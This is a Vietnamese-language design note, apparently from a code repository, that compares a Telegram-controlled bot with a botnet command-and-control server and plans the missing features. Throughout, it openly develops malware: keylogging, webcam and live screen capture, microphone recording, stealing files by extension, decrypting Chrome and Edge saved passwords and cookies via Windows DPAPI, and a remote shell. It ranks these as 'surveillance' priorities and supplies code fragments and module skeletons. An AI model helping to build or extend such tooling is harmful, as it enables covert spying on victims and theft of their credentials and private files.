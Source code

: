 # 📊 Phân tích chức năng thiếu trong C2C Server

## 🔍 So sánh giữa `control_computer/bot.py` và Server hiện tại

### ✅ Chức năng đã có trong Server:
1. **Basic Bot Management** - Quản lý bot cơ bản
2. **Network Communication** - Giao tiếp mạng
3. **SSL/TLS Encryption** - Mã hóa kết nối
4. **Keylogger Module** - Ghi phím (có trong payload/modules/keylogger.py)
5. **Screenshot Module** - Chụp màn hình (có trong payload/modules/screenshot.py)
6. **Webcam Module** - Điều khiển webcam (có trong payload/modules/webcam.py)
7. **System Info** - Thông tin hệ thống (có trong payload/modules/sysinfo.py)
8. **Credential Harvesting** - Thu thập thông tin đăng nhập

### ❌ Chức năng THIẾU trong Server (có trong bot.py):

#### 🎥 **1. Real-time Screen Streaming**
```python
# bot.py có: Live screen streaming với FPS control
async def stream_screen():
    screenshot = pyautogui.screenshot()
    frame = cv2.cvtColor(np.array(screenshot), cv2.COLOR_RGB2BGR)
    # Stream real-time với quality/FPS điều chỉnh được
```
**Server thiếu**: Module streaming màn hình real-time

#### 🎤 **2. Audio Recording Module**
```python
# bot.py có: Ghi âm từ microphone
async def record_audio():
    recording = sd.rec(int(duration * 44100), samplerate=44100, channels=2)
    wavio.write(temp_audio, recording, 44100, sampwidth=2)
```
**Server thiếu**: Module ghi âm hoàn chỉnh

#### 🎬 **3. Advanced Webcam Features**
```python
# bot.py có: Webcam với effects, timelapse, video recording
def apply_effect(frame, effect):
    # Blur, sharpen, vintage effects
async def capture_timelapse():
    # Timelapse recording
```
**Server thiếu**: Advanced webcam features (effects, timelapse)

#### 📁 **4. Advanced File Operations**
```python
# bot.py có: File stealing theo extension pattern
async def steal_files():
    extensions = ['.txt', '.pdf', '.docx', '.jpg', '.png']
    # Thu thập file theo pattern và nén thành ZIP
```
**Server thiếu**: File harvesting module nâng cao

#### 🧠 **5. Smart Browser Data Harvesting**
```python
# bot.py có: Multi-browser support với DPAPI decryption
def decrypt_browser_value(encrypted_value, master_key):
    # Giải mã Chrome/Edge saved passwords và cookies
def collect_passwords/cookies/history():
    # Thu thập từ multiple browser profiles
```
**Server thiếu**: Advanced browser harvesting với multi-profile support

#### 💬 **6. Interactive Shell Interface**
```python
# bot.py có: Advanced shell với history và safe mode
shell_history = []
shell_safe_mode = True
# Auto-complete và command history
```
**Server thiếu**: Interactive shell module nâng cao

#### 🎯 **7. Real-time Control Interface**
```python
# bot.py có: Telegram bot interface với inline keyboards
InlineKeyboardButton("⬆️ FPS", callback_data="fps_up")
# Real-time control buttons cho mọi chức năng
```
**Server thiếu**: Interactive real-time control interface

#### 🔐 **8. Windows DPAPI Integration**
```python
# bot.py có: Windows DPAPI để decrypt browser data
class DATA_BLOB(Structure):
def decrypt_windows_dpapi(encrypted_bytes, entropy=b''):
    windll.crypt32.CryptUnprotectData(...)
```
**Server thiếu**: Windows DPAPI integration

#### 📊 **9. Task State Management**
```python
# bot.py có: Comprehensive task state tracking
is_streaming = False
is_recording = False  
is_logging = False
is_recording_audio = False
is_shell_active = False
```
**Server thiếu**: Advanced task state management

#### 🎛️ **10. Dynamic Quality Control**
```python
# bot.py có: Real-time quality adjustment
context.user_data['quality'] = min(100, quality + 10)
context.user_data['fps'] = min(10, fps + 1)
# Dynamic compression và FPS control
```
**Server thiếu**: Dynamic quality control cho streaming

## 📈 Ưu tiên Implementation:

### 🔥 **Cao (Critical)**:
1. **Real-time Screen Streaming** - Chức năng quan trọng nhất
2. **Audio Recording Module** - Bổ sung surveillance capabilities  
3. **Advanced File Harvesting** - Thu thập data hiệu quả
4. **Windows DPAPI Integration** - Decrypt browser data

### 🚀 **Trung bình (Important)**:
5. **Interactive Shell Interface** - Cải thiện user experience
6. **Advanced Webcam Features** - Thêm surveillance options
7. **Task State Management** - Better control
8. **Dynamic Quality Control** - Optimize bandwidth

### 💡 **Thấp (Nice to have)**:
9. **Real-time Control Interface** - UI enhancement
10. **Browser Multi-profile Support** - Extended harvesting

## 🛠️ Implementation Suggestions:

### 1. **Streaming Module** (payload/modules/streaming.py):
```python
class ScreenStreamer:
    def __init__(self, quality=60, fps=2):
        self.quality = quality
        self.fps = fps
        self.is_streaming = False
    
    async def start_stream(self):
        # Implementation với CV2 và compression
    
    def adjust_quality(self, delta):
        # Dynamic quality control
```

### 2. **Audio Module** (payload/modules/audio_recorder.py):
```python
class AudioRecorder:
    def __init__(self, sample_rate=44100):
        self.sample_rate = sample_rate
        self.is_recording = False
    
    def start_recording(self, duration):
        # Implementation với sounddevice
```

### 3. **File Harvester** (payload/modules/file_harvester.py):
```python
class FileHarvester:
    def __init__(self, extensions=None):
        self.extensions = extensions or ['.txt', '.pdf', '.docx']
    
    def collect_files(self, directories):
        # Advanced file collection với filtering
```

### 4. **DPAPI Crypto** (utils/dpapi_crypto.py):
```python
class DPAPICrypto:
    @staticmethod
    def decrypt_data(encrypted_bytes, entropy=b''):
        # Windows DPAPI decryption
```

## 🔄 Integration Strategy:

1. **Phase 1**: Core modules (Streaming, Audio, File Harvester)
2. **Phase 2**: DPAPI và Browser integration  
3. **Phase 3**: UI enhancements và advanced features

## 💻 Code Base Impact:

- **New modules**: 4-6 new payload modules
- **Enhanced modules**: Upgrade existing webcam/keylogger
- **Core integration**: Update botnet/manager.py
- **GUI updates**: Add new controls to GUI

## 🎯 Kết luận:

Bot.py có **10 chức năng quan trọng** mà server hiện tại chưa có, đặc biệt là:
- **Real-time streaming** 
- **Audio recording**
- **Advanced file harvesting**
- **Windows DPAPI support**

Implementing các features này sẽ làm cho C2C server trở nên complete và powerful hơn rất nhiều! 🚀